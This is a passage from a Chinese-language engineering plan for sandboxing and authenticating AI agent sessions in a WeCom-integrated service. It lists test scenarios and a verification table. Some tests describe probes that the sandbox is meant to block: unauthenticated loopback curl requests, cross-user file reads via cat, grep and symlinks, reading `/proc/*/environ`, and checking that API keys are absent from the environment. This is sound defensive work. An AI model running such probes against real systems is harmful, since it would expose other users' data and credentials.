- **Approach:** 鉴权中间件 default-deny(豁免需显式声明,新增路由默认被保护);per-session token 在会话创建时铸造并注入沙箱执行环境,携 TTL/撤销/轮换,sqlite 存储、boot 失效;路由按 token 绑定会话鉴权,`isAdmin` 等派生自绑定会话而非自称;桌面 GUI 持长期本地凭据经请求层注入;上下文文件写入 `data/<userDir>/.runtime/wecom-context.json`,经环境变量传递给 CLI,废弃向上查找。
- **Test scenarios:**
  - 无 token 的 `curl 127.0.0.1:<port>/api/...wecom/send` 被拒;合法 token 的 CLI 调用成功。
  - 无鉴权端点矩阵(`files/content`、`smartsheet-export`、chat、sessions)从 normal 沙箱会话全部不可达;GUI 本地凭据流下桌面功能不回归。
  - 自称他人 sessionId 的请求被拒;`isAdmin` 派生自 token 绑定会话;token 过期/撤销后请求被拒。
  - 在 `data/<me>/` 下种植 `.claude/wecom-context.json` 不影响 CLI 行为。
  - 随包 wecom 技能在 normal 沙箱会话中端到端发信给自己成功(KTD-8 home 闭集与令牌鉴权联动)。
- **Verification:** 集成测试全绿;V10 回环鉴权实证通过。

## Verification Contract

| 门禁 | 适用范围 | 通过标准 |
|---|---|---|
| `npm run lint` | 全部改动 | 零错误 |
| `npm run test:server` | 服务端(隔离库) | 全绿,含新旧 fixture |
| `npm run test:client` | 客户端组件 | 全绿 |
| 单文件 `npx tsx --test <file>` | 单元级迭代 | 目标文件绿 |
| V1 写侧嵌套实证 | U2/U3,macOS + Linux | `allowWrite` 子路径重开 `denyWrite` 父区域成立;否则启用 cwd 兜底——兜底须过验收闸(文件处理与技能发现工作流成功、跨用户与敏感路径仍拒、resume 连续性显式选择) |
| V2 strictAllowlist 通道实证 | U2,≥0.3.219 | `Options.sandbox.network.strictAllowlist` 按会话生效;非白名单域名解析与连接双败;否则改 `Options.settings` 内联通道,DNS 残留记档 |
| V3 探针状态机实证 | U3,缺依赖的 Linux 或强制失败 | 负向断言失败的宿主走降级且 `failIfUnavailable: false`;通过的宿主启动报错而非裸跑 |
| V4 跨用户隔离电池 | U3,macOS | AE2 全套(bash 与文件工具两层):`cat`/`grep -r`/脚本 open/符号链接跳转/大小写变体均被拒(AE6 同测) |
| V5 复合命令契约 | U4 | AE1:逐段子命令独立求值 |
| V6 升级流端到端 | U8+U11 | EPERM → 标记重试 → 受众路由 → 批准/deny/TTL 全程;Promise 有界;批准在 SDK `input.timeout` 期限内送达 |
| V7 环境变量卫生 | U2,macOS | 沙箱内 `env` 无 `ANTHROPIC_API_KEY` 与 bot 密钥(名称 + 值金丝雀双重) |
| V8 Windows 降级 | U3,Windows 或强制不可用 | 结构规则 + 按角色路由,无沙箱报错退出;内置只读命令逐一探测,未匹配 deny;deny 拦不住的触发预提交分支(normal bash 全 deny + 仅直通名单) |
| V9 Linux /proc 隔离实证 | U2,Linux | 沙箱内 `/proc/*/environ` 不可读;不成立按 Risks 联动处置 |
| V10 回环鉴权实证 | U12,macOS | 无 token 回环请求被拒;全部无鉴权端点矩阵(files/chat/sessions/smartsheet-export)从 normal 沙箱会话不可达;合法 token 成功 |
| 行为验收 AE1–AE9 | 对应单元 | 每条 AE 的 Then 成立 |

## Definition of Done

- 一期(U1–U6、U10、U12):全部单元落地;`npm run lint`、`npm run test:server`、`npm run test:client` 全绿;V1–V5、V7–V10 实证在 macOS 通过(Linux 尽力,V9 必测于 Linux);AE1–AE7 满足;普通用户出沙箱保持 deny(`allowUnsandboxedCommands=false`);i18n 双命名空间完整;`CHANGELOG.md` 已更新。
- 二期(U8、U9、U11):AE8–AE9 满足;台账 boot 恢复实证通过;SSE replay 测试通过;V6 端到端通过;normal 的 `allowUnsandboxedCommands` 在 U11 验收后才翻 true。
- 清理:无废弃实验代码与死路径留在 diff 中;前缀匹配器(`isBashCommandAllowed`)与 `bot-path-policy` 执行导出退役无残留引用;遗留问题均已在 Risks 或 Deferred 中显式登记,无伪装的确定性。
